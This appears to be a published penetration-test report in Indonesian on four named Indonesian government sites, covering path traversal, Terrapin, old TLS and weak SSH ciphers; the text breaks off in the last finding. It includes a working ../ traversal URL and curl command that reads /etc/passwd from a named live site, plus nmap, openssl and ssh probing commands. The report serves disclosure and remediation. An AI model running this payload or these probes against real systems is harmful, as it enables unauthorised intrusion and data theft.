# Web & Infrastructure Security Assessment — Red Team

> **Laporan hasil security assessment** terhadap beberapa sistem elektronik pada lingkungan pemerintahan `.go.id`.
>
> Assessment dilakukan dengan prinsip **non-destructive security testing** dan berfokus pada identifikasi, validasi, dokumentasi, serta rekomendasi remediasi.

## Informasi Assessment

| Item | Detail |
|---|---|
| Nama | Kgs Abdul Fatah Revaldo |
| Division | Cyber Security – Purple Team |
| Jenis Assessment | Web Application & Infrastructure Security Assessment |
| Metodologi | Reconnaissance → Vulnerability Analysis → Safe Exploitation/PoC → Manual Validation → Reporting |
| Platform | Kali Linux |
| Tools | Nuclei, Nmap, cURL, OpenSSL, SSH Client |
| Target | Sistem elektronik pada lingkungan pemerintahan dengan domain `.go.id` |

## Tujuan

Assessment dilakukan untuk mengidentifikasi kelemahan keamanan yang berpotensi berdampak pada:

- Confidentiality
- Integrity
- Availability
- Authentication
- Cryptographic Security
- Information Disclosure

## Scope & Batasan

Pengujian dilakukan secara terbatas dan non-destruktif.

Tidak dilakukan:

- Defacement
- Domain takeover
- DNS hijacking
- Penghapusan data
- Modifikasi data produksi
- DoS/DDoS
- Social engineering
- Phishing
- Eksploitasi lanjutan yang dapat mengganggu layanan
- Pengambilan data sensitif yang tidak diperlukan untuk pembuktian

Untuk vulnerability yang telah terbukti, pengujian dihentikan setelah evidence yang memadai diperoleh.

## Target Assessment

| # | Target | Service | CSIRT |
|---|---|---|---|
| 1 | `manggaraibaratkab.go.id` | HTTP/HTTPS | Manggarai Baratkab-CSIRT |
| 2 | `diskominfo.papua.go.id` | SSH/22 | PapuaProv-CSIRT |
| 3 | `setda.oganilirkab.go.id` | HTTPS/443 | OganIlirKab-CSIRT |
| 4 | `diskominfo.sultraprov.go.id` | SSH/22 | SultraProv-CSIRT |

## Verifikasi CSIRT

Assessment menemukan informasi keberadaan CSIRT pada lingkungan target:

- **Manggarai Baratkab-CSIRT** — diperkuat oleh Keputusan Bupati Manggarai Barat Nomor `112/KEP/HK/2023`.
- **PapuaProv-CSIRT** — CSIRT sektor Pemerintah Daerah Provinsi Papua.
- **OganIlirKab-CSIRT** — didukung Keputusan Nomor `555/012/KEP/D.KSIP/V/2024`.
- **SultraProv-CSIRT** — diluncurkan bersama BSSN dan Pemerintah Provinsi Sulawesi Tenggara pada 27 Juni 2022.

> **Catatan:** Keberadaan CSIRT bukan berarti penetration testing otomatis diperbolehkan. Authorization tetap harus mengacu pada scope assessment, VDP, security testing policy, surat izin, atau ketentuan resmi lain yang secara eksplisit mengizinkan pengujian.

---

# Executive Summary

Total terdapat **5 finding utama**:

| Severity | Jumlah |
|---|---:|
| Critical | 0 |
| High | 1 |
| Medium | 2 |
| Low | 2 |

### Ringkasan Finding

| ID | Finding | Target | Severity | Status |
|---|---|---|---|---|
| F-01 | Path Traversal / Arbitrary Local File Read | `manggaraibaratkab.go.id` | **HIGH** | Confirmed |
| F-02 | CVE-2023-48795 Terrapin | `diskominfo.papua.go.id:22` | **MEDIUM** | Strongly Validated / Likely Vulnerable |
| F-03 | Deprecated TLS 1.0 & TLS 1.1 | `setda.oganilirkab.go.id:443` | **LOW** | Confirmed |
| F-04 | CVE-2023-48795 Terrapin | `diskominfo.sultraprov.go.id:22` | **MEDIUM** | Strongly Validated / Likely Vulnerable |
| F-05 | Weak / Deprecated SSH Cryptographic Algorithms | `diskominfo.sultraprov.go.id:22` | **LOW** | Confirmed |

---

# F-01 — Path Traversal / Arbitrary Local File Read

**Target:** `manggaraibaratkab.go.id`  
**Endpoint:** `/downlot.php?file=`  
**Severity:** **HIGH**  
**CWE:** CWE-22  
**CVSS 3.1:** **7.5**  
**Status:** **CONFIRMED**

## Detection

Nuclei mendeteksi indikasi Path Traversal melalui parameter `file`.

Contoh payload yang diuji:

```text
https://manggaraibaratkab.go.id/downlot.php?file=../../../../../../../../../../etc/passwd
```

## Manual Validation

Command:

```bash
curl -k -i --max-time 10 \
'https://manggaraibaratkab.go.id/downlot.php?file=../../../../../../../../../../etc/passwd'
```

Response berhasil mengembalikan HTTP `200` dan isi `/etc/passwd`.

Evidence yang diamati antara lain:

```text
HTTP/2 200
content-type: application/proses
content-disposition: attachment; filename="passwd"
x-powered-by: PHP/7.2.34
server: cloudflare
platform: hostinger
```

Contoh isi file yang berhasil dibaca:

```text
root:x:0:0:root:/root:/bin/bash
apache:x:985:48::/home/apache:/bin/bash
nobody:x:65534:65534:Kernel Overflow User:/:/sbin/nologin
```

### Screenshot Evidence





## Analysis

Parameter `file` dapat dimanipulasi menggunakan sequence `../`, sehingga aplikasi membaca file di luar lokasi yang seharusnya dapat diakses.

Karena file sistem berhasil dibaca, finding ditetapkan sebagai **Confirmed**.

## Potential Impact

Attacker berpotensi:

- Membaca file konfigurasi.
- Membaca informasi sistem.
- Mengakses credential yang tersimpan pada file.
- Membaca environment/configuration file.
- Mendapatkan informasi untuk serangan lanjutan.

## Remediation

- Jangan menerima filesystem path secara langsung dari user.
- Gunakan allowlist file.
- Gunakan internal file identifier.
- Normalisasi path.
- Validasi canonical path.
- Pastikan canonical path tetap berada pada direktori yang diperbolehkan.
- Tolak traversal sequence.

### Retest

Payload traversal setelah remediation harus menghasilkan:

```text
HTTP 400
```

atau

```text
HTTP 403
```

dan tidak boleh mengembalikan file sistem.

---

# F-02 — CVE-2023-48795 Terrapin

**Target:** `diskominfo.papua.go.id:22`  
**Service:** SSH  
**Severity:** **MEDIUM**  
**CWE:** CWE-354  
**CVSS 3.1:** **5.9**  
**Status:** **STRONGLY VALIDATED / LIKELY VULNERABLE**

## Nuclei Detection

Nuclei memberikan:

```text
[CVE-2023-48795] [javascript] [medium]
diskominfo.papua.go.id:22
["Vulnerable to Terrapin"]
```

## Service Information

SSH aktif pada:

```text
Port: 22
Banner: OpenSSH_7.6p1 Ubuntu-4ubuntu0.5
```

Server menawarkan:

```text
chacha20-poly1305@openssh.com
```

Server juga tidak menunjukkan dukungan strict-KEX pada proposal yang diamati.

### Screenshot Evidence



## Analysis

CVE-2023-48795 atau **Terrapin** merupakan serangan terhadap SSH transport protocol yang memanfaatkan manipulasi sequence paket pada kondisi tertentu.

Evidence dianggap cukup untuk menyatakan target **likely vulnerable**, tetapi exploit aktif tidak dilakukan.

## Potential Impact

Potensi dampak meliputi manipulasi komunikasi SSH tertentu dalam kondisi Man-in-the-Middle yang memenuhi persyaratan.

Dampak aktual bergantung pada:

- Algoritma yang digunakan.
- Konfigurasi SSH.
- Kondisi jaringan.
- Kemampuan attacker melakukan MITM.

## Remediation

- Upgrade OpenSSH ke versi patched.
- Gunakan strict-KEX.
- Nonaktifkan algoritma yang tidak diperlukan.
- Batasi akses port 22.
- Gunakan firewall dan access control.

### Retest

```bash
nmap -sV -p 22 diskominfo.papua.go.id
```

Lakukan juga enumeration algoritma SSH.

Exploit aktif Terrapin tidak dilakukan dalam assessment.

---

# F-03 — Deprecated TLS 1.0 & TLS 1.1

**Target:** `setda.oganilirkab.go.id:443`  
**Service:** HTTPS  
**Severity:** **LOW**  
**Status:** **CONFIRMED**

## Nuclei Detection

Nuclei menemukan:

```text
[deprecated-tls:tls_1.1] [ssl] [info] ["tls11"]
[tls-version] [ssl] [info] ["tls10"]
```

Weak cipher juga ditemukan:

```text
TLS_ECDHE_RSA_WITH_AES_128_CBC_SHA
```

## Manual Validation

TLS 1.0:

```bash
openssl s_client \
-connect setda.oganilirkab.go.id:443 \
-tls1
```

TLS 1.1:

```bash
openssl s_client \
-connect setda.oganilirkab.go.id:443 \
-tls1_1
```

Kedua koneksi berhasil.

### Certificate Evidence

```text
CN=oganilirkab.go.id
Issuer: Google Trust Services WR1
Validity: Jul 22 2026 – Oct 20 2026
```

### Screenshot Evidence





## Impact

Penggunaan TLS versi lama dapat:

- Menurunkan security posture.
- Memungkinkan penggunaan cipher deprecated.
- Meningkatkan risiko downgrade.
- Menyebabkan ketidaksesuaian dengan security baseline modern.

## Remediation

Nonaktifkan:

```text
TLS 1.0
TLS 1.1
```

Pertahankan minimal:

```text
TLS 1.2
TLS 1.3
```

### Retest

```bash
openssl s_client -connect setda.oganilirkab.go.id:443 -tls1
openssl s_client -connect setda.oganilirkab.go.id:443 -tls1_1
```

Kedua handshake tersebut harus gagal setelah remediation.

---

# F-04 — CVE-2023-48795 Terrapin — Sulawesi Tenggara

**Target:** `diskominfo.sultraprov.go.id:22`  
**Service:** SSH  
**Severity:** **MEDIUM**  
**Status:** **STRONGLY VALIDATED / LIKELY VULNERABLE**

## Nuclei Detection

```text
[CVE-2023-48795] [javascript] [medium]
diskominfo.sultraprov.go.id:22
["Vulnerable to Terrapin"]
```

## Nmap Service Detection

Command:

```bash
nmap -sV -p 22 diskominfo.sultraprov.go.id
```

Hasil:

```text
22/tcp open ssh OpenSSH 7.4 (protocol 2.0)
```

## SSH Algorithm Enumeration

Command:

```bash
nmap -p 22 --script ssh2-enum-algos \
diskominfo.sultraprov.go.id
```

Key Exchange yang ditemukan antara lain:

```text
curve25519-sha256
curve25519-sha256@libssh.org
ecdh-sha2-nistp256
ecdh-sha2-nistp384
ecdh-sha2-nistp521
diffie-hellman-group-exchange-sha256
diffie-hellman-group16-sha512
diffie-hellman-group18-sha512
diffie-hellman-group-exchange-sha1
diffie-hellman-group14-sha256
diffie-hellman-group14-sha1
diffie-hellman-group1-sha1
```

### Screenshot Evidence





## SSH Verbose Validation

Command:

```bash
ssh -vvv -o ConnectTimeout=10 diskominfo.sultraprov.go.id
```

Client:

```text
OpenSSH 10.2
```

Remote:

```text
OpenSSH_7.4
```

Server tidak menunjukkan strict-KEX pada proposal KEX yang diperoleh.

Negosiasi aktual tercatat menggunakan:

```text
curve25519-sha256
ssh-ed25519
chacha20-poly1305@openssh.com
```

Pada akhir pengujian server meminta konfirmasi host key. Pengujian dihentikan menggunakan `Ctrl-C` dan tidak dilakukan authentication menggunakan credential.

### Screenshot Evidence



## Analysis

Kombinasi berikut mendukung indikasi Terrapin:

```text
OpenSSH 7.4
+
chacha20-poly1305@openssh.com
+
server tidak menunjukkan strict-KEX
+
Nuclei mendeteksi CVE-2023-48795
```

Karena exploit tidak dijalankan, status tetap:

**Strongly Validated / Likely Vulnerable**

bukan confirmed exploitation.

## Remediation

- Upgrade OpenSSH.
- Gunakan versi yang telah dipatch.
- Aktifkan strict-KEX.
- Hapus algoritma deprecated.
- Batasi akses SSH.
- Terapkan firewall/network ACL.

---

# F-05 — Weak / Deprecated SSH Cryptographic Algorithms

**Target:** `diskominfo.sultraprov.go.id:22`  
**Service:** SSH  
**Severity:** **LOW**  
**Status:** **CONFIRMED**

## Nuclei Detection

Nuclei menemukan:

```text
[ssh-diffie-hellman-logjam] [low]
[ssh-cbc-mode-ciphers] [low]
[ssh-weakkey-exchange-algo] [low]
```

## Weak Key Exchange

Ditemukan:

```text
diffie-hellman-group-exchange-sha1
diffie-hellman-group14-sha1
diffie-hellman-group1-sha1
```

## CBC Cipher

Ditemukan:

```text
aes128-cbc
aes192-cbc
aes256-cbc
blowfish-cbc
cast128-cbc
3des-cbc
```

### Screenshot Evidence





## Analysis

